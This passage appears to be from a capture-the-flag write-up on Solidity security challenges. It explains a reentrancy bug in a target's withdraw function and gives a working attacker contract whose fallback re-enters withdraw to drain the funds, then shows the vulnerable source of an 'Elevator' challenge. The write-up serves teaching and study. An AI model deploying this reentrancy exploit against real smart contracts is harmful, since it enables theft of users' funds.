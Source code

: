 To solve this challenge we need to steal all the funds from the contract.

In withdraw function , the contract is sending amount via call method, instead of send or transfer which introduces reentrancy bug.

If msg.sender is a contract and calling the withdraw function , then the withdraw function makes a call to the msg.sender contract which triggers a function that calls the withdraw function again recursively .

So first we depoist some amount in the contract and call the withdraw function from the attacker contract, the balance is updated after the call so we can steal the funds .

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;
interface Re {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}
contract Reentrance {
    Re reentrace;
    constructor(address _add) payable public {
        reentrace = Re(_add);
        reentrace.donate{value: msg.value}(address(this));
    }
    function startAttack() payable public {
        reentrace.withdraw(0.001 ether);
    }
    fallback() external payable {
        reentrace.withdraw(0.001 ether);
    }
}
```

## 11 Elevator

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
interface Building {
  function isLastFloor(uint) external returns (bool);
}
contract Elevator {
  bool public top;
  uint public floor;
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

